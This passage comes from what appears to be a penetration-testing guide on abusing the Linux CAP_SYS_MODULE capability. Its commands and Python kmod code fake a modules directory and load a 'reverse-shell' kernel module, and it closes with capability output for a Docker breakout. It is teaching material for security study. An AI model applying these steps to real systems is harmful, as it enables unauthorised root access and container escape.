 In the following example the binary **`python`** has this capability.

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_module+ep
```

By default, **`modprobe`** command checks for dependency list and map files in the directory **`/lib/modules/$(uname -r)`**.\
In order to abuse this, lets create a fake **lib/modules** folder:

```bash
mkdir lib/modules -p
cp -a /lib/modules/5.0.0-20-generic/ lib/modules/$(uname -r)
```

Then **compile the kernel module you can find 2 examples below and copy** it to this folder:

```bash
cp reverse-shell.ko lib/modules/$(uname -r)/
```

Finally, execute the needed python code to load this kernel module:

```python
import kmod
km = kmod.Kmod()
km.set_mod_dir("/path/to/fake/lib/modules/5.0.0-20-generic/")
km.modprobe("reverse-shell")
```

#### Example 2 with binary

In the following example the binary **`kmod`** has this capability.

```bash
getcap -r / 2>/dev/null
/bin/kmod = cap_sys_module+ep
```

Which means that it's possible to use the command **`insmod`** to insert a kernel module. Follow the example below to get a **reverse shell** abusing this privilege.

#### Example with environment (Docker breakout)

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
